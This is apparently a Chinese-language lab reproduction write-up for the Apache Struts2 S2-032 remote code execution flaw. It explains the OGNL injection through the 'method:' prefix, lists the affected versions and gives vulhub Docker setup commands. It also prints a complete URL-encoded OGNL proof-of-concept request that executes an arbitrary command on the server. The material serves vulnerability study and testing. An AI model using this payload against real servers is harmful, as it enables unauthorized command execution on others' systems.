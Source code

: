 在 DMI 开启时，使用 `method` 前缀可以导致任意代码执行漏洞。当启用动态方法调用时，可以传递可用于在服务器端执行任意代码的恶意表达式。 `method:Action` 前缀去调用声明为 `public` 的函数，只不过在低版本中 Strtus2 不会对 `name` 方法值做 OGNL 计算，而在高版本中会。

官方公告：[S2-032](https://cwiki.apache.org/confluence/display/WW/S2-032)

### 影响版本

- [x] Struts 2.3.20 - 2.3.28 (2.3.20.3 和 2.3.24.3 除外)

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-032
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面

![s2-032-1](images/s2-032-1.png)

任意命令执行 PoC，执行 `id` 命令

```
/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![s2-032-2](images/s2-032-2.png)